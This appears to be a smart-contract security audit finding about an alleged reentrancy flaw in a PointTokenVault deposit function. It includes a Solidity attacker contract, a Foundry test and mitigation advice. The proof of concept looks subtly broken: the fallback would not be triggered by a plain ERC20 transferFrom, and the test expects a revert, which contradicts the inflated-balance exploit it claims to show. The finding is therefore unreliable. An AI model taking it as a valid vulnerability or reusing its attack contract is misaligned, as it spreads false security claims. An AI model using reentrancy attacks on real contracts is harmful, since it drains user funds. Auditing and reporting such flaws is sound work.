 Trendy Chiffon Eel

High

# Reentrancy Vulnerability in deposit Function Could Lead to Loss of Funds

### Summary

The deposit function in the PointTokenVault contract is vulnerable to a reentrancy attack. This issue arises because the function allows external calls (such as transferring tokens) before updating the internal state. An attacker could exploit this to repeatedly call the deposit function in a recursive manner, leading to incorrect or inflated balances. This flaw can result in the loss of funds or incorrect token accounting, which directly impacts the protocol's financial integrity and user balances.

### Root Cause

The reentrancy vulnerability occurs because the deposit function allows an external call (via token transfer) to occur before the contract's state is securely updated. This oversight enables a malicious contract to recursively invoke the deposit function before the state (like user balances) is fully settled.
```solidity
https://github.com/sherlock-audit/2024-07-sense-points-marketplace/blob/076bf833f4dc1418e93c8172e4a4110344f1c812/point-tokenization-vault/contracts/PointTokenVault.sol#L123-L127
```

### Internal pre-conditions

The deposit function makes an external call to an untrusted contract (i.e., an ERC20 transferFrom call).
The contract's internal state is not fully updated before the external call is made.

### External pre-conditions

An attacker must have the ability to deposit tokens into the PointTokenVault contract.
The attacker has deployed a malicious contract with a fallback function that calls deposit again.
The external token contract (ERC20 or custom implementation) allows reentrancy or does not revert on repeated transfers within the same transaction.

### Attack Path

Attacker deploys a malicious contract with a fallback function that calls deposit on the PointTokenVault.
The malicious contract initiates a deposit into PointTokenVault with some tokens.
Before the deposit function can update the attacker’s balance, the external transferFrom call triggers, and the malicious contract’s fallback function is called.
Fallback function makes another call to deposit recursively, effectively bypassing the initial balance update.
The attacker can repeat this process multiple times within a single transaction, leading to an inflated balance in PointTokenVault without a corresponding amount of deposited tokens.

### Impact

Inflated Balances: The attacker can artificially inflate their balance within the PointTokenVault without actually depositing the corresponding tokens. This results in the attacker having more tokens than they should.
Financial Loss: The protocol could face financial loss if the inflated balances are used to withdraw more funds than deposited. This leads to a direct loss of funds from the protocol's reserves.
Broken Token Accounting: The protocol's internal accounting would be compromised, making it impossible to accurately track user deposits and balances.
Reputation Risk: Such vulnerabilities can lead to loss of user trust and potentially cause a run on withdrawals, further destabilizing the protocol.

### PoC

Malicious Contract:

```solidity

// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "../src/PointTokenVault.sol";
import "../test/MockERC20.sol";

contract MaliciousReentrancy {
    PointTokenVault public pointVault;
    MockERC20 public token;

    constructor(PointTokenVault _pointVault, MockERC20 _token) {
        pointVault = _pointVault;
        token = _token;
    }

    // Initiates the reentrancy attack
    function attack() external {
        // Approve PointTokenVault to spend tokens
        token.approve(address(pointVault), type(uint256).max);
        // Make the initial deposit call
        pointVault.deposit(token, 1e18, address(this));
    }

    // Fallback function that is triggered on receiving tokens
    fallback() external {
        if (token.balanceOf(address(this)) >= 1e18) {
            // Call deposit again to trigger reentrancy
            pointVault.deposit(token, 1e18, address(this));
        }
    }
}

```
Test Function:

```solidity 

// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.20;

import "forge-std/Test.sol";
import "../src/PointTokenVault.sol";
import "../test/MockERC20.sol";
import "./MaliciousReentrancy.sol";

contract PointTokenVaultTest is Test {
    PointTokenVault public pointVault;
    MockERC20 public token;
    MaliciousReentrancy public attackerContract;

    function setUp() public {
        // Deploy PointTokenVault and MockERC20
        pointVault = new PointTokenVault();
        token = new MockERC20("Mock Token", "MTKN", 18);

        // Mint tokens to attacker contract
        token.mint(address(this), 100e18);
        
        // Deploy MaliciousReentrancy contract
        attackerContract = new MaliciousReentrancy(pointVault, token);

        // Approve attacker contract to use tokens
        token.transfer(address(attackerContract), 10e18);
    }

    function testReentrancyAttack() public {
        vm.expectRevert(); // Expecting a reentrancy attack revert or protection mechanism
        attackerContract.attack();
        
        // Check that the vault's balance hasn't changed incorrectly
        assertEq(pointVault.balances(address(attackerContract), token), 0);
    }
}

```

### Mitigation

To prevent reentrancy attacks, follow these mitigation strategies:

Use Checks-Effects-Interactions Pattern:
Update the contract’s internal state before making any external calls. For example, move the balance update logic before the token transfer in the deposit function.
Utilize Reentrancy Guard:
Implement ReentrancyGuard from OpenZeppelin to prevent reentrant calls.